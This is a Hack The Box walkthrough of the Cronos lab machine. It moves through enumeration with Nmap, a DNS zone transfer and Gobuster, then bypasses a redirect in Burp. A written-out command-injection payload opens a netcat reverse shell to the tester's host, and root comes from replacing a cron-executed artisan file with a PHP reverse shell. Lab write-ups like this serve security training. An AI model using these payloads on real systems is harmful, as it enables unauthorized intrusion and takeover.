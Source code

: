 ```yaml
---
layout: PostSimple
date: 2020-01-16
title:     "Hack The Box - Cronos"
tags: ['linux','medium','domain','cron','redirection']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/1.png)

We are going to pwn Cronos from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/11>


Like always begin with our Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 4.8 (92%), Linux 4.9 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP Enumeration

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/2.png)
Its an apache2 default webpage.

I edited my ``/etc/hosts`` file to add the machine’s name ``cronos.htb`` and then revisit the page to check it shows any different page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/3.png)

The server is running ``laravel framework`` every page leads to ``laravel`` releated things.
So I started checking other ports.

## Port 53 Enumeration

Which is ``domain`` may be we can do a zone transfer for that domain. For that we can use a tool named ``dig``.

> dig - DNS lookup utility

By using this we can find other domains available for the webpage. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/4.1.png)

> AXFR, is a type of DNS transaction. It is one of the many mechanisms available for administrators to replicate DNS databases across a set of DNS servers.

Got some new domains, So I added those new entries to ``/etc/hosts``

Started from ``admin.cronos.htb``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/4.png)
Its an Login page!!

Lets bruteforce the directories using ``Gobuster`` to check if anything useful for us.

## Gobuster Results
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://admin.cronos.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/01/16 20:34:34 Starting gobuster
===============================================================
 /index.php (Status: 200)
 /welcome.php (Status: 302)
 /logout.php (Status: 302)
 /config.php (Status: 200)
 /session.php (Status: 302)
 /server-status (Status: 403)
```

## Getting Initial Shell

When I try to enter ``/welcome.php`` it redirects to ``/login.php`` , So we can stop the redirection and see what that page leads us.<br/>
We can use ``intruder`` from burp to do this process.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/5.png)<br/>
All we need to do is change ``302 Found`` to ``200 Ok``.

For that open ``Proxy -> Options -> Match and Replace``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/6.png)

``/welcome.php`` it leads to a page where it has a tool to ping.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/7.png)

So I tried some normal command injections and  ``&&`` helps to exec another commands.

`` 10.10.14.8 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/8.png)<br/>
We got the shell

While checking for any useful files in ``/var/www`` found ``/admin.php/config.php``  and its give me ``mysql`` credentials
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/9.png)

I logged in with them to check any user credentials available and found a hash for admin but it takes some time to crack the hash.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/10.png)

## Privilege Escalation

I uploaded my Enumeration Script to the box and found there is a cronjob running so I uploaded ``pspy`` to see whats actually going on.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/11.png)

We have write permission on the on the folder ``/var/www/laravel/``and its running as php so we can create a file with the same name ``artisan`` and upload our php reverse shell.

I created ``artisan`` file in my machine with php reverse shell and uploaded to the box.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/12.png)

Started my Listener and waited for the cronjob to execute my reverse shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/13.png)

Got Root!!